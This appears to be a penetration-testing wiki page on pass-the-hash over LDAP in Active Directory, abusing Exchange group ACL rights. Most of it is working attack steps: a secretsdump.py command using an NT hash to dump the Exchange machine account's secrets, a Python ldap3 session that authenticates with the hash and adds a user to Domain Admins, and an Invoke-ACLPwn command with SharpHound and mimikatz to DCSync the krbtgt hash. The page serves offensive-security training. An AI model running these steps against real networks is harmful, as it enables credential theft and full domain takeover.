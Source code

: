 # LDAP (PTH)

## Theory and practice

Active Directory is Windows' implementation of a general purpose directory service, which uses LDAP as its primary access protocol.

I often find that the best Active Directory attack chains usually involve exploiting ACLs. Consider a common penetration testing scenario: You have gained access to an NT hash from a user in an IT administration group that has administrator access over an exchange server. You do not have administrator access to domain controllers. Exchange servers are members of the Exchange Trusted Subsystem group, which is a member of the Exchange Windows Permissions group. This group has WriteDACL access over the domain. It is also important to know that computer accounts have usernames and passwords, and that these passwords are effectively uncrackable, so passing the hash is extremely useful.

First, retrieve the NT hash for the Exchange server.

```bash
secretsdump.py ituser@10.0.0.40 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
 
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
DOMAIN\EXCHANGE$:aes256-cts-hmac-sha1-96:fbc8df96a7709ec33edc50d2d9394d8e28c6bc65697f9bdfaf78009850cfa69d
DOMAIN\EXCHANGE$:aes128-cts-hmac-sha1-96:fe0acc236a82bd74fdcaa593f51481f2
DOMAIN\EXCHANGE$:des-cbc-md5:cd4308d6f285fc82
DOMAIN\EXCHANGE$:aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248:::
```

Once you have the NT hash for the Exchange server, you can authenticate to a domain controller using `ldap3`, and authenticate by passing the hash. From here you can do many things, but a simple attack is to add a user that you control to the **Domain Admins** group. In this example, of course, you can also use the Exchange account for DCsync with secretsdump.py. In the case of compromising the NT hash of a member of the **Account Operators** group, you would not be able to DCsync however, you could use this method to add users to certain groups to extend access.

```python
python3
>>> import ldap3
>>> user = 'DOMAIN\\EXCHANGE$'
>>> password = 'aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248'
>>> server = ldap3.Server('DOMAIN.LOCAL')
from ldap3 import Server, Connection, SIMPLE, SYNC, ALL, SASL, NTLM
connection = ldap3.Connection(server, user=user, password=password, authentication=NTLM)
>>> connection.bind()
>>> from ldap3.extend.microsoft.addMembersToGroups import ad_add_members_to_groups as addUsersInGroups
>>> user_dn = 'CN=IT User,OU=Standard Accounts,DC=domain,DC=local'
>>> group_dn = 'CN=Domain Admins,CN=Users,DC=domain,DC=local'
>>> addUsersInGroups(connection, user_dn, group_dn)
True
```

Another thing we can use, is the PowerShell script Invoke-ACLpwn, which can be used to make the modification in the domain ACL for the user to get the following privileges:

* Replicate directory changes
* Replicate directory changes All

The script requires `SharpHound.exe` to retrieve access control entries (ACE) and enumerate domain objects and `mimikatz.exe` for DCSync operations (dump Kerberos account password hash). The following command can be executed to retrieve the Kerberos account hash (krbtgt).

```powershell
.\Invoke-ACLPwn.ps1 -SharpHoundLocation .\SharpHound.exe -mimiKatzLocation .\mimikatz.exe -userAccountToPwn krbtgt
```

### References

{% embed url="https://pentestlab.blog/2019/09/12/microsoft-exchange-acl" %}

{% embed url="https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth" %}

